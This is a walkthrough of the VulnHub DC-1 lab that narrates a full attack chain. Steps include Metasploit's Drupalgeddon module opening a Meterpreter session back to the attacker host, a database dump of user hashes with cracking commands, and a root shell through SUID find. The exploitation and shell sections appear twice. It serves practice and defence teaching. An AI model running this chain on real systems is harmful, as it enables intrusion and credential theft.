


# VulnHub – DC-1 (Linux, Easy)

## Table of Contents
- [General Info](#general-info)
- [Objectives](#objectives)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
- [Initial Shell](#initial-shell)
- [Privilege Escalation](#privilege-escalation)
- [Post-Exploitation Proof](#post-exploitation-proof)
- [Cleanup](#cleanup)
- [Key Takeaways](#key-takeaways)

## General Info
- **Machine name:** DC-1  
- **Platform:** VulnHub  
- **Author:** DCAU  
- **Release year:** 2015  
- **Difficulty:** Easy  
- **Type:** Boot2Root (goal: root access)  

## Objectives
- Gain initial foothold through the web application  
- Escalate privileges to root  
- Practice CMS exploitation (Drupal) and privilege escalation techniques  

## Enumeration
The target machine was identified in the NAT network.

**Network discovery**  
```bash
sudo netdiscover -r <target_subnet>/24
```
Discovered host: <target_IP>

**Nmap scan**
```bash
sudo nmap -sC -sV <target_IP>
```
Open ports:
```text
22/tcp – OpenSSH 6.0p1 Debian 4+deb7u7
80/tcp – Apache 2.2.22 (Debian), running Drupal 7
111/tcp – rpcbind 2-4
```

Initial observation:
The Drupal CMS on port 80 appears to be the main attack surface. The robots.txt file reveals multiple standard Drupal directories and files (e.g., /CHANGELOG.txt, /install.php), which may expose the exact version.


_The scan reveals SSH (22), HTTP (Drupal, port 80), and RPCBind (111) as the main exposed services._

## Exploitation

`CHANGELOG.txt` was not accessible (404), so version was unknown beyond **Drupal 7**.  
Tried **drupal_drupalgeddon2** (`check` inconclusive), then fell back to the older **Drupalgeddon (2014)** module.

**Metasploit**
```bash
msfconsole
search drupal
use exploit/multi/http/drupal_drupageddon
set RHOSTS <target_IP>
set TARGETURI /
set LHOST <attacker_IP>
set TARGET 0
run
# if no session:
# set TARGET 1
# run
```
Result: a Meterpreter session opened successfully (see Figure 2).

(Recap for clarity — keeping the exact commands and outcome in one place.)
`CHANGELOG.txt` was not accessible (404), so the exact version of Drupal was unknown.  
We first tried **drupalgeddon2** (`check` was inconclusive), then fell back to the older **Drupalgeddon (2014)** module, which worked.

**Metasploit exploit:**
```bash
msfconsole
search drupal
use exploit/multi/http/drupal_drupageddon
set RHOSTS <target_IP>
set TARGETURI /
set LHOST <attacker_IP>
set TARGET 0
run
```
Notes:
- Module: `exploit/multi/http/drupal_drupageddon` (Rank: excellent)
- `TARGETURI` must be “/” (Drupal in web root)
- `LHOST` set to attacker IP (`<attacker_IP>`); `RHOSTS` `<target_IP>`

Result: a Meterpreter session was successfully opened.

## Initial Shell

Validated context and dropped to a shell from meterpreter.

```text
meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : DC-1
OS          : Linux DC-1 3.2.0-6-486 #1 Debian 3.2.102-1 i686
Meterpreter : php/linux
meterpreter > shell
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ pwd
/var/www
```

Low-priv shell as `www-data` obtained via Drupalgeddon (2014).

Validated the session and dropped into a shell.

```text
meterpreter > getuid
Server username: www-data

meterpreter > sysinfo
Computer    : DC-1
OS          : Linux DC-1 3.2.0-6-486 #1 Debian 3.2.102-1 i686
Meterpreter : php/linux

meterpreter > shell
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ pwd
/var/www
```


*Low-priv shell as `www-data` obtained via Drupalgeddon (2014).*

### Database user dump (Drupal 7)

**Why:** After gaining a foothold as `www-data`, we used the DB creds from `sites/default/settings.php`. Because Meterpreter shells lack a TTY, we ran **non-interactive** MySQL commands to dump users and password hashes.

**Commands**
```bash
mysql -u dbuser -p'R0ck3t' -e 'SHOW DATABASES;'
mysql -u dbuser -p'R0ck3t' -D drupaldb -e 'SHOW TABLES;'
mysql -u dbuser -p'R0ck3t' -D drupaldb -e 'DESC users;'
mysql -u dbuser -p'R0ck3t' -D drupaldb -e "SELECT uid,name,mail,pass FROM users;"
```

**Result**

*Figure 3 – Extracted Drupal 7 users and password hashes from the database using non-interactive MySQL commands.*

**Findings**
- Database: `drupaldb`
- Accounts (Drupal 7 `$S$` / PHPass hashes):
  - `admin : $S$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR`
  - `Fred  : $S$DWGrxef6.D0cwB5Ts.GlnLw15chRRWH2s1R3QBwC0EkvBQ/9TCGg`

**Next**
- Crack the hashes offline:
  - `john --format=drupal7 hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt`
  - or `hashcat -m 7900 hashes.txt /usr/share/wordlists/rockyou.txt`
- If `Fred`’s password is recovered, try SSH: `ssh Fred@<target_IP>`

## Privilege Escalation

After dumping Drupal users, attempts to crack the `$S$` hashes (Drupal 7 PHPass) were inconclusive in the video walkthrough.  
As a result, the focus shifted to **local privilege escalation** from the existing foothold as `www-data`.

### SUID Enumeration

From the limited shell (`www-data`), we searched for SUID binaries:

find / -perm -4000 -type f 2>/dev/null

Result (excerpt):

/bin/su
/bin/ping
/usr/bin/passwd
/usr/bin/find
...

The key binary here is **`/usr/bin/find`**, which was set with the SUID bit.  
This allows abuse via the `-exec` option to spawn a root shell.

### Exploiting SUID `find`

cd /tmp  
touch testfile  
find testfile -exec /bin/sh \;  
whoami  
id  

Result:

whoami  
root  
id  
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)  

- `uid=33(www-data)` → original user.  
- `euid=0(root)` → effective UID is root → commands now execute with full root privileges.

---

## Post-Exploitation Proof

With root privileges confirmed, we accessed the `/root` directory:

ls -la /root  

Result:

-rw-r--r--  1 root root  173 Feb 19  2019 thefinalflag.txt  

Reading the final flag:

/bin/cat /root/thefinalflag.txt  

Output (partially redacted to avoid full spoiler):

Well done.
Hopefully you've enjoyed this and learned some new skills.  
[... output truncated ...]  

  
*Figure 4 – Root access confirmed: `id` shows euid=0(root), listing `/root` reveals the flag, and partial flag output is displayed.*

---

## Cleanup

After proof of root access, sessions were closed:

exit        # exit from root shell  
exit        # exit from www-data shell  

The target VM can then be safely powered off in the lab environment.

---

## Key Takeaways

- **CMS exploitation:** Older Drupal instances (Drupal 7) can be compromised via Drupalgeddon vulnerabilities. Even without exact version disclosure, fallback exploits may succeed.  
- **Database credentials:** Always inspect `settings.php` (or CMS config files) for DB creds. These often lead to user hashes or further lateral movement.  
- **Hash cracking:** Drupal 7 `$S$` hashes are computationally expensive to crack (32k iterations SHA-512). Offline cracking may be slow, especially on CPU-only VMs.  
- **Privilege Escalation:** When hash cracking fails, local privilege escalation is the alternative. Enumeration of SUID binaries is essential.  
- **SUID abuse:** `find` with SUID root can trivially spawn a root shell with `-exec`.  
- **Best practice for reporting:** Include proofs (`id`, access to `/root`, final flag) but redact sensitive or complete flag content when publishing.  

---

## Conclusion

This vulnerable machine (DC-1) demonstrated a full attack chain:
- Enumeration of exposed services (Drupal CMS identified).
- Exploitation of Drupalgeddon (2014) to gain initial access as www-data.
- Database credential extraction and user hash dumping.
- Privilege escalation through SUID `find`, leading to root access.
- Final proof by reading the flag in `/root`.

The lab highlights the importance of timely patching CMS platforms, securing configuration files, and auditing SUID binaries on Linux systems.
